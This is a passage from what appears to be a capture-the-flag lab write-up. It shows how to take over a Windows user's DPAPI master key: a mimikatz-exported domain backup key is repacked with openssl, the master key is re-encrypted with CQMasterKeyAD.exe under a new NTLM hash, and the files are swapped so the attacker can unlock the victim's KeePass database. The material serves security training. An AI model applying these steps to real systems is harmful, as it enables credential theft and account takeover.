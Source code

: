 ```
Scanning c:\users\chajoh\appdata\roaming\Microsoft\Windows\Themes\CachedFiles\CachedImage_1680_1050_POS4.jpg
```
Jackpot, we found it the KeePass MasterKey is `a773eede-71b6-4d66-b4b8-437e01749caa`

But before we can upload the pfx file and recreate the DPAPI key, we need to change one thing the tool `CQMasterKeyAD.exe` hardcoded passphrase is "cqure", but `mimikatz` export with the passphrase "mimikatz"

So we have to repack the pfx file with the passphrase "cqure"

First we extract the pfx key using this command and the passphrase "mimikatz"
```
openssl pkcs12 -in DMK.pfx -out temp.pem -nodes
```
Then we recreate the pfx key using this command but with the passphrase "cqure"
```
openssl pkcs12 -export -out DMK2.pfx -in temp.pem
```
Now we can upload the pfx file on the target, and we can use `CQMasterKeyAD.exe` to re-encrypt the Keepass MasterKey with the new NTLM hash and the pfx file

```
C:\Users\tom\Desktop>CQMasterKeyAD.exe /file "c:\users\chajoh\appdata\roaming\microsoft\protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa" /pfx DMK2.pfx /newhash 4c05b64dec614df2b522c401bb8d8994
New MasterKey file successfully written to: c:\users\chajoh\appdata\roaming\microsoft\protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa.admodified
Now swap the old MasterKey file with the new one and set the system and hidden attributes, see example:
attrib "c:\users\chajoh\appdata\roaming\microsoft\protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa" +S +H
```

Now we need to rename the existing MasterKey file `a773eede-71b6-4d66-b4b8-437e01749caa` in `C:\users\chajoh\appdata\roaming\microsoft\protect\S-1-5-21-555431066-3599073733-176599750-1125\` to something else and rename our newly created MasterKey `a773eede-71b6-4d66-b4b8-437e01749caa.admodified` to `a773eede-71b6-4d66-b4b8-437e01749caa`

Lastly, we need to run this command to make sure the new MasterKey is set with the correct attributes:

```
attrib "c:\users\chajoh\appdata\roaming\microsoft\protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa" +S +H
```
Once done, we can just login as "windcorp/chajoh", and open the KeePass database and get the third and final flag.

Note if you can't login as "windcorp/chajoh" in Linux, try using the "remote desktop connection" in windows
